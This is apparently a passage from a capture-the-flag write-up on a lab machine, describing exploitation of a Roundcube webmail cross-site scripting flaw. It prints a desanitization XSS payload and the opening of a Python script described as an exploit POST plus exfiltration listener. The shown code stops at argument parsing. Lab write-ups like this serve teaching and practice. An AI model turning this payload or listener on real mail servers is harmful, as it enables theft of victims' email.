 its seems like XSS is the way but its says;

`allows a remote attacker to steal and send emails of a victim via a crafted e-mail message that abuses a Desanitization issue in message_body() in program/actions/mail/show.php.`

So its seems like we will steal a mail for information.

https://www.sonarsource.com/blog/government-emails-at-risk-critical-cross-site-scripting-vulnerability-in-roundcube-webmail/

```bash
<body title="bgcolor=foo" name="bar style=animation-name:progress-bar-stripes onanimationstart=alert(origin) foo=bar">
  Foo
</body>
```

this should be our payload!!!

I listened everything from [`http://drip.htb/](http://drip.htb/index#contact)contact`  and found this!!!

![alt text](../assets/images/ezgif-1efd2a0e8a6bd8.gif)


we have target & payload so i created basic python command do this for us;

```python
#!/usr/bin/env python3
import argparse
import base64
import logging
import threading
from http.server import BaseHTTPRequestHandler, HTTPServer
from socketserver import ThreadingMixIn
from urllib.parse import urlparse, parse_qs, unquote

import requests
from lxml import html

# ---------- Config / CLI ----------
parser = argparse.ArgumentParser(description="Exploit POST + exfil listener (cleaned-up)")
parser.add_argument("--target", default="http://drip.htb/contact", help="Target URL for POST")
parser.add_argument("--listen-ip", default="0.0.0.0", help="IP to listen on")
parser.add_argument("--listen-port", default=7777, type=int, help="Port to listen on")
```